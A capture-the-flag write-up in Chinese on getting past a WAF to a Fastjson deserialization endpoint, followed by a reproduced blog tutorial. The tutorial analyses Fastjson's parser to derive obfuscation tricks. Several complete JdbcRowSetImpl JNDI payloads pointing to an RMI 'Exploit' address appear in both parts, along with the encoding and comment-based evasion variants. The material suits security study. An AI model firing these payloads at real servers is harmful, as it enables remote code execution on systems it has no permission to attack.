<!--more--> 
# 题目
题目提示存在Fastjson漏洞，需要绕过WAF，路径为`/fastjson/deserialize`

# 过程
1. 访问题目提示的路径，发现提示请求类型错误。



2. 修改成POST并且修改`Content-Type`为`application/json`。然后直接跑检测的payload：

```plain
{
        "@type":"java.lang.AutoCloseable"
```



3. 发现提示fastjson攻击，直接使用unicode编码进行绕过，编码工具用什么都行。





```plain
{
    "\u0040\u0074\u0079\u0070\u0065": "java.lang.AutoCloseable"
```

这里判断了版本小于1.2.47。16进制编码也可以绕过，但是需要手动添加一下`\x`，





```plain
{
    "\x40\x74\x79\x70\x65": "java.lang.AutoCloseable"
```

4. 继续使用unicode加密就行。



# 参考内容
原文：[浅谈Fastjson绕waf](https://y4tacker.github.io/2022/03/30/year/2022/3/%E6%B5%85%E8%B0%88Fastjson%E7%BB%95waf/#%E7%BC%96%E7%A0%81%E7%BB%95%E8%BF%87-Unicode-Hex)

## [](#浅谈Fastjson绕waf)浅谈Fastjson绕waf
## [](#写在前面)写在前面
 关键时期换个口味，虽然是炒陈饭，但个人认为有干货的慢慢看，从最简单到一些个人认为比较骚的，本人垃圾代码狗，没有实战经验，因而更多是从fastjson的词法解析部分构造混淆

## [](#初级篇)初级篇
### [](#添加空白字符)添加空白字符
在`com.alibaba.fastjson.parser.JSONLexerBase#skipWhitespace`

```plain
public final void skipWhitespace() {
        while(true) {
            while(true) {
                if (this.ch <= '/') {
                    if (this.ch == ' ' || this.ch == '\r' || this.ch == '\n' || this.ch == '\t' || this.ch == '\f' || this.ch == '\b') {
                        this.next();
                        continue;
                    }

                    if (this.ch == '/') {
                        this.skipComment();
                        continue;
                    }
                }

                return;
            }
        }
    }
```

不难看出默认会去除键、值外的空格、`\b`、`\n`、`\r`、`\f`等，作为开胃菜

### [](#默认开启的Feature中得到的思路)默认开启的Feature中得到的思路
#### [](#添加多个逗号)添加多个逗号
FastJson中有个默认的Feature是开启的`AllowArbitraryCommas`，这允许我们用多个逗号



这里可以添加的位置很多

```plain
{,,,,,,"@type":"com.sun.rowset.JdbcRowSetImpl",,,,,,"dataSourceName":"rmi://127.0.0.1:1099/Exploit",,,,,, "autoCommit":true}
```

#### [](#json字段名不被引号包括)json字段名不被引号包括
也是一个默认开启的Feature，`AllowUnQuotedFieldNames`，但是只在恢复字段的过程调用当中有效果



因此原来的payload可以做此改造

```plain
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1099/Exploit", "autoCommit":true}
||
\/
{"@type":"com.sun.rowset.JdbcRowSetImpl",dataSourceName:"rmi://127.0.0.1:1099/Exploit", "autoCommit":true}
```

#### [](#json字段名使⽤单引号包裹)json字段名使⽤单引号包裹
`Feature.AllowSingleQuote`也是默认开启滴，这个太简单了就不说了

#### [](#type后的值第一个引号可以替换为其他字符)@type后的值第一个引号可以替换为其他字符
主要是一个逻辑问题



这里我们可以对比之前获取`@type`的过程，先检验了当前位置是`"`再扫描到下一个`"`之间的值

```plain
if (ch == '"') {
  key = lexer.scanSymbol(this.symbolTable, '"');
  lexer.skipWhitespace();
  ch = lexer.getCurrent();
//省略不必要代码
}
```

因此可以构造出,注意`com`前面的引号被我改了,`{"@type":xcom.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1099/Exploit", "autoCommit":true}`

### [](#编码绕过-Unicode-Hex)编码绕过(Unicode/Hex)
首先在`com.alibaba.fastjson.parser.JSONLexerBase#scanSymbol`,当中可以看见，如果遇到了`\u`或者`\x会有解码操作`



还可以混合编码，这里一步到位

```plain
{"\x40\u0074\u0079\u0070\u0065":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1099/Exploit", "autoCommit":true}
```

### [](#对字段添加多个下划线或者减号)对字段添加多个下划线或者减号
#### [](#1-2-36版本前)1.2.36版本前
在`com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer#parseField`

解析字段的key的时候，调用了`smartMatch`，下面截了与本主题相关的关键点



由于这里有`break`，不支持两个一起混合使用，只能单一使用其中一个，随便加

```plain
{"@type":"com.sun.rowset.JdbcRowSetImpl",'d_a_t_aSourceName':"rmi://127.0.0.1:1099/Exploit", "autoCommit":true}
```

#### [](#1-2-36版本及以后)1.2.36版本及以后
我们再来看这个`smartMatch`调用了`com.alibaba.fastjson.util.TypeUtils#fnv1a_64_lower`



这个函数忽略所有的`_`与`-`



因此简单测试，lol



### [](#1-2-36版本后可以对属性前添加is)1.2.36版本后可以对属性前添加is
在那个基础上,还是在`smartMatch`当中可以看见，如果前缀有`is`，会去掉`is`



```plain
{"a": {"@type": "java.lang.Class","val": "com.sun.rowset.JdbcRowSetImpl"},"b": {"@type": "com.sun.rowset.JdbcRowSetImpl","isdataSourceName": "rmi://127.0.0.1:1099/Exploit","isautoCommit": true}}
```

## [](#高级篇)高级篇
自己瞎想出来的哈哈哈，假装很高级吧

### [](#注释加强版绕过)注释加强版绕过
我在想如果假如有waf逻辑会为了方便先将接受到的字符串的去除注释符之间的部分再去匹配，比如下面的伪代码

```plain
preg_replace("(/\*(.*?)\*/)","",'/*y4tacker*/{/*y4tacker*/"@type":"com.sun.rowset.JdbcRowSetImpl"}');
```

处理前：`/*y4tacker*/{/*y4tacker*/"@type":"com.sun.rowset.JdbcRowSetImpl"}`

处理后会显得更干脆更好做判断：

`{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1099/Exploit", "autoCommit":true}`

那有没有办法可以让我们将注释符中内容替换以后，没有危险字符嘞，当然有的，先给出答案再解释加上`\u001a`

`/*\u001a{/*y4tacker*/"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1099/Exploit", "autoCommit":true}*/`，这样waf就会将内容替换后识别一串空字符当然就可以绕过，而且JSON数据后⾯可以填充其他不是`():[]{}`等任意字符，具体可以看`com.alibaba.fastjson.parser.JSONLexerBase#nextToken()`

那为什么这里`\u001a`可以绕过

从代码出发开局初始化`DefaultJSONParser`的时候，由于我们字符串开头是`/`，会调用`netToken`



这里会调用`skipComment`去除注释

